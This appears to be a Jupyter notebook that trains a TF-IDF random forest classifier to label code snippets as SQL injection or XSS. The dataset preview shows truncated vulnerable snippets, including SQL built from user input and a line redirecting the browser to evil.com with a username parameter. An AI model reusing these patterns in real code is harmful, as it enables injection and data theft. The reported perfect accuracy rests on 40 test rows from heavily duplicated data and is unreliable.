Import Libraries

In [1]:
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns


Load Dataset

In [2]:
df = pd.read_csv('/content/code_vulnerabilities.csv')


In [3]:
# Cell 3
df.head()

,Code Snippet,Vulnerability Type,Location,Preprocessed Tokens
0,cursor.execute('SELECT * FROM users WHERE user...,SQLi,8,"[""cursor.execute('SELECT"", '*', 'FROM', 'users..."
1,alert('Hello ' + user_input);,XSS,19,"[""alert('Hello"", ""'"", '+', 'user_input);']"
2,document.location = 'http://evil.com?username=...,XSS,2,"['document.location', '=', ""'http://evil.com?u..."
3,query = 'SELECT * FROM customers WHERE email =...,SQLi,14,"['query', '=', ""'SELECT"", '*', 'FROM', 'custom..."
4,db.execute('SELECT * FROM employees WHERE id =...,SQLi,17,"[""db.execute('SELECT"", '*', 'FROM', 'employees..."


In [4]:
# Cell 4
df.shape

(1000, 4)

In [5]:
# Cell 5
df.columns

Index(['Code Snippet', 'Vulnerability Type', 'Location',
       'Preprocessed Tokens'],
      dtype='object')

In [6]:
# Cell 6
df.info()

<class 'pandas.core.frame.DataFrame'>
RangeIndex: 1000 entries, 0 to 999
Data columns (total 4 columns):
 #   Column               Non-Null Count  Dtype 
---  ------               --------------  ----- 
 0   Code Snippet         1000 non-null   object
 1   Vulnerability Type   1000 non-null   object
 2   Location             1000 non-null   int64 
 3   Preprocessed Tokens  1000 non-null   object
dtypes: int64(1), object(3)
memory usage: 31.4+ KB


In [7]:
# Cell 7
df.describe()

,Location
count,1000.000000
mean,10.243000
std,5.730339
min,1.000000
25%,5.000000
50%,10.000000
75%,15.000000
max,20.000000


In [8]:
# Cell 8
df.isnull().sum()

,0
Code Snippet,0
Vulnerability Type,0
Location,0
Preprocessed Tokens,0


In [9]:
# Cell 9
df = df.dropna()

In [10]:
# Cell 10
df.duplicated().sum()

np.int64(804)

In [11]:
# Cell 11
df = df.drop_duplicates()

In [14]:
df.columns = df.columns.str.strip().str.lower().str.replace(" ", "_")

print(df.columns)

Index(['code_snippet', 'vulnerability_type', 'location',
       'preprocessed_tokens'],
      dtype='object')


In [15]:
target_col = 'vulnerability_type'

In [16]:
X = df.drop(target_col, axis=1)
y = df[target_col]

In [17]:
# Combine useful text columns
df['combined_text'] = df['code_snippet'] + " " + df['preprocessed_tokens']

In [18]:
X = df['combined_text']
y = df['vulnerability_type']

In [19]:
from sklearn.model_selection import train_test_split

X_train, X_test, y_train, y_test = train_test_split(X, y, test_size=0.2, random_state=42)

In [20]:
from sklearn.feature_extraction.text import TfidfVectorizer

vectorizer = TfidfVectorizer(max_features=5000)

X_train = vectorizer.fit_transform(X_train)
X_test = vectorizer.transform(X_test)

In [21]:
from sklearn.ensemble import RandomForestClassifier

model = RandomForestClassifier()
model.fit(X_train, y_train)

RandomForestClassifier()

In [22]:
y_pred = model.predict(X_test)

In [23]:
from sklearn.metrics import accuracy_score

print("Accuracy:", accuracy_score(y_test, y_pred))

Accuracy: 1.0


In [24]:
from sklearn.metrics import classification_report

print(classification_report(y_test, y_pred))

              precision    recall  f1-score   support

        SQLi       1.00      1.00      1.00        21
         XSS       1.00      1.00      1.00        19

    accuracy                           1.00        40
   macro avg       1.00      1.00      1.00        40
weighted avg       1.00      1.00      1.00        40





In [25]:
from sklearn.metrics import confusion_matrix
import seaborn as sns
import matplotlib.pyplot as plt

cm = confusion_matrix(y_test, y_pred)

sns.heatmap(cm, annot=True)
plt.title("Confusion Matrix")
plt.show()



In [26]:
df['vulnerability_type'].value_counts().plot(kind='bar')
plt.title("Vulnerability Distribution")
plt.show()



In [30]:
df['code_length'] = df['code_snippet'].apply(len)

plt.hist(df['code_length'], bins=30)
plt.title("Code Snippet Length Distribution")
plt.xlabel("Length")
plt.ylabel("Frequency")
plt.show()



In [33]:
from collections import Counter

all_words = " ".join(df['preprocessed_tokens'].astype(str)).split()
common_words = Counter(all_words).most_common(10)

words = [w[0] for w in common_words]
counts = [w[1] for w in common_words]

plt.bar(words, counts)
plt.title("Top 10 Most Frequent Tokens")
plt.xticks(rotation=45)
plt.show()



In [34]:
import seaborn as sns

sns.boxplot(x='vulnerability_type', y='code_length', data=df)
plt.xticks(rotation=45)
plt.title("Code Length vs Vulnerability Type")
plt.show()